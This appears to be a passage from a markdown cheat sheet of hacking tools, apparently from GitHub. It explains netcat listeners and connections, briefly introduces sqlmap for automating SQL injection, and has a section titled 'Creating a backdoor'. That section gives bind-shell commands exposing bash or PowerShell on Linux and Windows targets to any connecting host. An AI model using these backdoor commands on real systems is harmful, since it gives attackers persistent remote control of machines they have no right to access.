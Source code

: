 ```javascript
## nc -lvvp 4444

# where,   
# [-l]: Listen Mode   
# [vv]: Verbose Mode {It can be used once, but we use twice to be more verbose}   
# [p]: Local Port 

Now, it’s time to create an initiator, for this we will just provide the IP Address of the System where we started the Listener followed by the port number. 

**NOTE:** Use the same port to create an initiator that was used in creating listener. 

## nc 192.168.1.35 4444 
```

> Feature > Creating a backdoor   

We can also create a backdoor using NC.
To create a backdoor on the target system that we can come back to at any time.

| Step-1 | Command for attacking a Linux System. |
| ------ | ------------------------------------- |
```javascript
nc -l -p 3556 -e /bin/bash
```

| Step-2 | For Creating Backdoor for Windows system. |
| ------ | ----------------------------------------- |
```javascript
nc -l -p 3556 -e powershell
```

This will open a listener on the system that will pipe the command shell or the Linux bash shell to the connecting system

| Step-3 | Make a Connection to the Remote Shell |
| ------ | ------------------------------------- |

```javascript
## nc 192.168.1.35 3556 
```

> Resources

1. https://www.geeksforgeeks.org/introduction-to-netcat/?ref=ml_lbp
2. https://www.maketecheasier.com/netcat-transfer-files-between-linux-computers
3. https://superuser.com/questions/98089/sending-file-via-netcat
---
## sqlmap 

sqlmap is probably the best tool for automating SQL injection (SQLi) attacks against web forms. It is capable of database fingerprinting, dumping data from the database into .csv files, and even accessing the underlying OS of the web server.

---
## ollyDbg
